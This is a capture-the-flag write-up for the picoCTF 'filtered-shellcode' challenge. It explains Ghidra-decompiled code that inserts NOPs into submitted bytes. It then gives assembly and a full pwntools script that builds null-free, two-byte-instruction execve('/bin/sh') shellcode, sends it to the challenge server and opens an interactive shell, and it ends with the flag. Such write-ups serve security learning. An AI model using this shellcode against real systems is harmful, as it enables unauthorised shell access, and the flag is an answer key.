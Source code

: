 # filtered-shellcode

> A program that just runs the code you give it? That seems kinda boring...
>
> nc mercury.picoctf.net 37853

## Description

We are given the executable running on the server. By decompiling it with Ghidra, we can see that the `main` function asks us for code to run (a maximum of 1000 bytes) then pass it to the `execute` function:

```c
void execute(int shellcode,int len)

{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

I have renamed some variables for a better understanding.

Basically, our shellcode is copied into the `auStack44` variable except that every 2 bytes, 2 other bytes with value `0x90` are added.
It corresponds to the `nop` instruction, so it does nothing except cutting our shellcode in series of 2 bytes.
It means we need to write a shellcode with instructions at most 2 bytes long.

## Shellcode basics

Before writing a shellcode with only 2 bytes instructions, we want to understand how a shellcode is created.

There are a lot of tutorials on the web, for instance [this one](https://zestedesavoir.com/articles/pdf/158/ecrivez-votre-premier-shellcode-en-asm-x86.pdf).

To summarize, the objective is to call `execve("/bin/sh", NULL, NULL)`.

To do so, there are several steps:
- put the "/bin/sh" string on the stack, so that `esp` points to it;
- put the arguments in the correct registers (in our case, the pointer to "/bin/sh" in `ebx`, and setting `ecx` and `edx` to 0);
- call the syscall corresponding to `execve`;
- quit the program.

Normally we could fill the register values with `mov ebx, 0`. However this creates null bytes in our shellcode, which could be problematic if we had to input it using `fgets` for instance.
So the trick to avoid doing that is to use `xor ebx, ebx` to set them to 0.

Furthermore, to give them some actual value, we can avoid having null bytes by filling sub-registers. For instance, to get `eax` to have the value `11` (which is the syscall number for `execve`), we can use `xor eax, eax; mov al, 11`.

So the exploit is quite straightforward:
```assembly
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

## Solution

With this shellcode, almost all instructions are at most two-bytes long.
The only problem are pushing `//bin/sh` on the stack.

Well for this I have a simple solution: I build the string in registers and push it on the stack.

Concretely, given `eax` initialised to 0, I add to `al` the first byte of my target.
Then I multiply `eax` by 16 and by 16 again, so the first value is now on the second byte of `eax`.

Note also that I added some `nop` dummy instructions when an instruction is only 1 byte long so I always have instructions of 2 bytes.

Here is my complete code:

```python
from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()
```

Flag: `picoCTF{th4t_w4s_fun_edd8e0b87b2038ea}`